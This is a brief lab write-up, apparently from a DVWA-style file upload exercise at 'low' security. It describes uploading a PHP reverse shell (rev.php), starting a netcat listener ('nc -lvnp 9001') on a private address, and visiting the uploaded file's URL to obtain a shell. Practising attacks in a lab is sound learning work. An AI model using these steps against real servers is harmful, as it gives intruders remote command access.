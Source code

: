 Security level is currently: low.

php reverse shell code: Downloaded from github

Listing IP: 192.168.170.131 port: 9001

netcat listener command: nc -lvnp 9001

upload the file rev.php and visit the url : http://192.168.170.131/hackable/uploads/rev.php

and you have reverse shell:
![Screenshot 2025-04-25 032053](https://github.com/user-attachments/assets/fc5701af-ac70-40ff-ad23-4eae7ecde73a)
